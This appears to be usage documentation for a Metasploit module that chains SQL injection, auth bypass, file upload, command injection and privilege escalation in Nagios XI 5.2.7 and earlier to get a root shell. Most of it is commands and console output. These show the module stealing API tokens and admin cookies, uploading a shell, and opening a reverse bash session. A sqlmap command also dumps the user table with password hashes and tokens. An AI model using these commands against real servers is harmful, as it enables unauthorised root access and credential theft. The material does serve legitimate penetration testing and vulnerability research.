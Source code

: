 ## Introduction

Nagios XI is the enterprise version of Nagios, the monitoring software we love
and hate.

> This module exploits an SQL injection, auth bypass, file upload, command
injection, and privilege escalation in Nagios XI <= 5.2.7 to pop a root shell.

## Setup

**Download the virtual appliance:**

I used the 64-bit OVA [here]. Remove the "-64" in the link to download the
32-bit OVA.

[here]: https://assets.nagios.com/downloads/nagiosxi/5/ovf/nagiosxi-5.2.7-64.ova

**Import the OVA:**

Just import it into VMware or VirtualBox. It should create a VM for you.

**Configure the software:**

When you start the VM, you will see ```Access Nagios XI at http://[redacted]```
on the login screen. Connect to the URL using your web browser and follow the
steps on the screen to configure the app.

Configuration is actually not required to exploit the app, but you should do it
anyway.

## Options

  **USER_ID**

  If you wish to exploit a particular ```USER_ID```, that can be specified here.  Default is 1, which is most likely the admin account.
  
  **API_TOKEN**
  
  The SQLi included only works for MySQL, which should work in most cases.  However, if you experience a different backend, you can enumerate the user
  table via sqlmap: ```sqlmap -u "http://[ip]/nagiosxi/includes/components/nagiosim/nagiosim.php?mode=resolve&host=a&service=" -p service -T xi_users --dump```.
  Then you can set the ```USER_ID``` and ```API_TOKEN``` to skip those phases and move on to exploitation.  Default is empty.  See example below for more usage.

## Usage

### Typical Usage

Just set ```RHOST``` and fire off the module! It's pretty much painless.
```set VERBOSE true``` if you want to see details.

```
msf > use exploit/linux/http/nagios_xi_chained_rce 
msf exploit(nagios_xi_chained_rce) > set rhost [redacted]
rhost => [redacted]
msf exploit(nagios_xi_chained_rce) > set verbose true
verbose => true
msf exploit(nagios_xi_chained_rce) > run

[*] Started reverse TCP handler on [redacted]:4444 
[*] Nagios XI version: 5.2.7
[*] Getting API token
[+] API token: 3o2erpm0
[*] Getting admin cookie
[+] Admin cookie: nagiosxi=jcilcfptj7ogpvovgs3i5gilh7;
[+] CSRF token: 477abd7db8d06ade9c7fcd9e405fd911
[*] Getting monitored host
[+] Monitored host: localhost
[*] Downloading component
[*] Uploading root shell
[*] Popping shell!
[*] Command shell session 1 opened ([redacted]:4444 -> [redacted]:60132) at 2016-07-01 00:12:20 -0500
[*] Cleaning up...
[*] rm -rf ../profile
[*] unzip -qd .. ../../../../tmp/component-profile.zip
[*] chown -R nagios:nagios ../profile
[*] rm -f ../../../../tmp/component-xAmhUGRn.zip

3904334783
TwMSxKhKEaxUjlTSNYyeICVUuPSNkwoI
cKKdfdZxRpDduZCezKXOficrVyNeVggH
mRVdstQmfdtnFiYMjLgyfvRWXyQZPyUF
dDlRoqhBvqvwrhKYWumimyKxVHSbrkoE
wjCWBTgbsQuPemhiByeMpMEhdPooHEvw
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
uname -a
Linux localhost.localdomain 2.6.32-573.22.1.el6.x86_64 #1 SMP Wed Mar 23 03:35:39 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

### Emulating a different DB

#### First we'll attempt the exploit and see what happens.

```
msf exploit(nagios_xi_chained_rce) > show options

Module options (exploit/linux/http/nagios_xi_chained_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   API_TOKEN                   no        If an API token was already stolen, skip the SQLi
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.2.218    yes       The target address
   RPORT      80               yes       The target port
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   USER_ID    1                yes       User ID in the database to target
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.117    yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nagios XI <= 5.2.7


msf exploit(nagios_xi_chained_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444 
[*] Nagios XI version: 5.2.7
[*] Getting API token
[+] 0 incidents resolved in Nagios IM

[-] Exploit aborted due to failure: unexpected-reply: API token not found! punt!
[*] Exploit completed, but no session was created.
```

#### Now lets try using sqlmap to enumerate the user table.

```
root@k:~# sqlmap -u "http://192.168.2.218/nagiosxi/includes/components/nagiosim/nagiosim.php?mode=resolve&host=a&service=" -p service -T xi_users --dump
...snip...
Database: nagiosxi
Table: xi_users
[2 entries]
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+
| user_id | name                 | email             | enabled | username    | password                         | backend_ticket                                                   |
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+
| 2       | admin2               | admin2@admin2.com | 1       | admin2      | c84258e9c39059a89ab77d846ddab909 | 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g |
+---------+----------------------+-------------------+---------+-------------+----------------------------------+------------------------------------------------------------------+

...snip...
```

#### Re-target
Now, we can set the ```USER_ID``` and ```API_TOKEN``` (backend_ticket)

```
msf exploit(nagios_xi_chained_rce) > set USER_ID 2
USER_ID => 2
msf exploit(nagios_xi_chained_rce) > set API_TOKEN 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g
API_TOKEN => 8ftgcj2jubs8nrjnlga0ssakeen4ij8p339cl8shgom7kau7n86j3d6grsidgp6g
msf exploit(nagios_xi_chained_rce) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444 
[*] Nagios XI version: 5.2.7
[*] Getting admin cookie
[+] Admin cookie: nagiosxi=rjs4f9k4299v78hpgq3374q6j6;
[+] CSRF token: c53d1f591264a3ea771639a7782627f8
[*] Getting monitored host
[+] Monitored host: localhost
[*] Downloading component
[*] Uploading root shell
[*] Popping shell!
[*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.218:51032) at 2016-10-10 10:15:08 -0400
[*] Cleaning up...
[*] rm -rf ../profile
[*] unzip -qd .. ../../../../tmp/component-profile.zip
[*] chown -R nagios:nagios ../profile
[*] rm -f ../../../../tmp/component-ZEaGkiTW.zip

1138255764
NXEqynCVIfLzvpjUkqOovFvuLgsUrtpo
CKorOSWlTQEkRoiwCiBqTgylyLQjuWxU
oIGZxLofAStLsgsMNaGnQzzMuBYpJUQs
fkUlWzVvhurgAATtxKhLSBFCxQaZqjtR
QajRDDToeigHGMFdUbaClxkLfJbxqBKv
whoami
root
```

